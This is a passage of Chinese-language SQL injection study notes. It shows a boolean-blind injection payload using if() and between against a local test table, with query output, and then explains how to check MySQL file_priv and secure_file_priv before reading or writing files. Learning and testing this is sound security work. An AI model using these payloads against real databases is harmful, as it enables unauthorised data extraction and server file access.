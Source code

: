 ```
+----------------------------------+
| 0                                |
+----------------------------------+
1 row in set
Time: 0.010s
```

>例子

```
mysql root@localhost:sql_injection_test> select * from table1 where id='-1' or if((select(select group_concat(username) from table1) between 'a' and 'z'),1,0)
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 where id='-1' or if((select(select group_concat(username) from table1) between 'z' and 'z'),1,0)
+----+----------+----------+-------+
| id | username | password | email |
+----+----------+----------+-------+
0 rows in set
Time: 0.008s
```

## 文件读写

`file_priv`是表示用户的文件读写权限,查询方式`select file_priv,host,user from mysql.user`

`secure_file_priv`表示mysql的读写权限,注意与`file_priv`区分

查询方式

```
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

>注意区分空值和NULL

- 空值即无限制
- 为`NULL`表示禁止文件读写
- 为目录名表示读写操作仅在该目录进行

```
mysql root@localhost:(none)> select @@version;
+-----------+
| @@version |
+-----------+
| 5.5.44    |
+-----------+
1 row in set
Time: 0.007s
mysql root@localhost:(none)> select file_priv,host,user from mysql.user
+-----------+------+------+
| file_priv | host | user |
+-----------+------+------+
| Y         | %    | root |
+-----------+------+------+
1 row in set
```